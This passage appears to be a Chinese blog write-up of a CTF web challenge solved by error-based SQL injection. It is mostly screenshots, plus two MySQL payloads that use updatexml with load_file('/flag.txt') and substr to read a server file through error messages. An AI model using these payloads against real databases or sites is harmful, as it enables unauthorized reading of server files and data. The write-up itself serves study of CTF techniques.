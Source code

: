 

<img src="https://i-blog.csdnimg.cn/blog_migrate/56ae4c5d27fd8c65f920fecb7d624297.png" alt="" style="max-height:603px; box-sizing:content-box;" />


写入报错语句



<img src="https://i-blog.csdnimg.cn/blog_migrate/c58493e42d144cad349cac6d22e3c82a.png" alt="" style="max-height:484px; box-sizing:content-box;" />


对语句进行更新 这样旧地址会输入到句子中



<img src="https://i-blog.csdnimg.cn/blog_migrate/b93acfde161a029680360c6f18a49264.png" alt="" style="max-height:145px; box-sizing:content-box;" />


实现了报错

但是这道题不在数据库中。。。。。

也不知道师傅们怎么做出来的

## 使用 load_file()函数

```bash
' and updatexml(1,concat(0x7e,(select load_file('/flag.txt'))),3)#
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/87057c14b0e495c0e439b8f6906a9122.png" alt="" style="max-height:151px; box-sizing:content-box;" />


实现了报错

但是长度不够

我们通过substr即可

```bash
' and updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),30,60))),3)#
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/57e72a3284aaa715cac0634d5deeda00.png" alt="" style="max-height:138px; box-sizing:content-box;" />


这道题 确实不是特别难 但是其实还是不是很简单。。。。